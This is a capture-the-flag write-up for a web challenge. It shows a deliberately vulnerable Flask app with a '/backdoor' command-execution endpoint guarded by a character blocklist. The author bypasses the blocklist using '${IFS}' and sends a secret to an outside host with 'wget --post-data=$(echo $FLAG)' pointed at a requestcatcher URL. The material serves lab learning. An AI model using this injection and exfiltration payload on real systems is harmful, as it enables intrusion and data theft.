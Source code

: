 # Cig 1
### Web - Easy+

- So continuing on last challenge but with more pepper! we have some blocked characters `blocked = \[";", "&", "``", "|", " ", "'", '"', ">", "<"\]`
- ![bdbc6d2e7d287e278e9ecadb0bda6e51.png](bdbc6d2e7d287e278e9ecadb0bda6e51.png)

<details>
<summary>Reveal Code</summary>
```python

from flask import Flask, render_template, request, redirect
import os
import re
import string

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    blocked = \[";", "&", "`", "|", " ", "'", '"', ">", "<"\]
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            return redirect("/")

    os.system(f"bash -c '{cmd}'")
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5000))
    app.run(debug=False, host="0.0.0.0", port=port)
```

</details>

- So now we have to bypass this! let's go!
- our last payload from cig 0 works all good except we can't use spaces! haha guess what I saw a John Hammod video some time ago about this issue! I introduce to you the `${IFS}` environment var! which is basically a whitespace! so now we just need to replace all the spaces in our payload with that
- `/backdoor?cmd=wget${IFS}--post-data=$(echo${IFS}$FLAG)${IFS}ayham.requestcatcher.com/` here we go!
- ![c2b117f40256e1387b1a181df1547b00.png](c2b117f40256e1387b1a181df1547b00.png)
- VOILA!!!